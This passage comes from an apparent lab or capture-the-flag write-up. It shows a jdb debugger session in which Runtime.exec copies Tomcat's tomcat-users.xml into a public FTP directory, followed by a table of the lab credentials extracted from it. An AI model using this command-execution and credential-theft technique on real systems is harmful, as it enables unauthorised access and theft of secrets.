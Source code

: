 	at com.sun.tools.example.debug.expr.LValue.makeNewObject(LValue.java:820)
	at com.sun.tools.example.debug.expr.ExpressionParser.AllocationExpression(ExpressionParser.java:1119)
	at com.sun.tools.example.debug.expr.ExpressionParser.PrimaryPrefix(ExpressionParser.java:961)
	at com.sun.tools.example.debug.expr.ExpressionParser.PrimaryExpression(ExpressionParser.java:909)
	at com.sun.tools.example.debug.expr.ExpressionParser.PostfixExpression(ExpressionParser.java:834)
	at com.sun.tools.example.debug.expr.ExpressionParser.UnaryExpressionNotPlusMinus(ExpressionParser.java:757)
	at com.sun.tools.example.debug.expr.ExpressionParser.UnaryExpression(ExpressionParser.java:687)
	at com.sun.tools.example.debug.expr.ExpressionParser.MultiplicativeExpression(ExpressionParser.java:611)
	at com.sun.tools.example.debug.expr.ExpressionParser.AdditiveExpression(ExpressionParser.java:580)
	at com.sun.tools.example.debug.expr.ExpressionParser.ShiftExpression(ExpressionParser.java:542)
	at com.sun.tools.example.debug.expr.ExpressionParser.RelationalExpression(ExpressionParser.java:504)
	at com.sun.tools.example.debug.expr.ExpressionParser.InstanceOfExpression(ExpressionParser.java:485)
	at com.sun.tools.example.debug.expr.ExpressionParser.EqualityExpression(ExpressionParser.java:455)
	at com.sun.tools.example.debug.expr.ExpressionParser.AndExpression(ExpressionParser.java:433)
	at com.sun.tools.example.debug.expr.ExpressionParser.ExclusiveOrExpression(ExpressionParser.java:412)
	at com.sun.tools.example.debug.expr.ExpressionParser.InclusiveOrExpression(ExpressionParser.java:391)
	at com.sun.tools.example.debug.expr.ExpressionParser.ConditionalAndExpression(ExpressionParser.java:370)
	at com.sun.tools.example.debug.expr.ExpressionParser.ConditionalOrExpression(ExpressionParser.java:349)
	at com.sun.tools.example.debug.expr.ExpressionParser.ConditionalExpression(ExpressionParser.java:321)
	at com.sun.tools.example.debug.expr.ExpressionParser.Expression(ExpressionParser.java:256)
	at com.sun.tools.example.debug.expr.ExpressionParser.evaluate(ExpressionParser.java:81)
	at com.sun.tools.example.debug.tty.Commands.evaluate(Commands.java:114)
	at com.sun.tools.example.debug.tty.Commands.doPrint(Commands.java:1654)
	at com.sun.tools.example.debug.tty.Commands$3.action(Commands.java:1680)
	at com.sun.tools.example.debug.tty.Commands$AsyncExecution$1.run(Commands.java:66)
 new java.lang.String(new java.io.BufferedReader(new java.io.InputStreamReader(new java.lang.Runtime().exec("cp /etc/tomcat/tomcat-users.xml /var/ftp/pub/").getInputStream())).readLine()) = null
main[1] exit

{% endhighlight %}

The Java code above copied the <code>/etc/tomcat/tomcat-users.xml</code> file to <code>/var/ftp/pub</code>. The default location for pub ftp on CentOS.

tomcat-users.xml was download to the attacking machine and the following credentials were extracted:

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Username</th>
      <th>Password</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>sl33py</code></p></pc>
           </td>
           <td>
               <pc><p><code>Gu3SSmYStR0NgPa$sw0rD!</code></p></pc>
           </td>
        </tr>
      </tbody>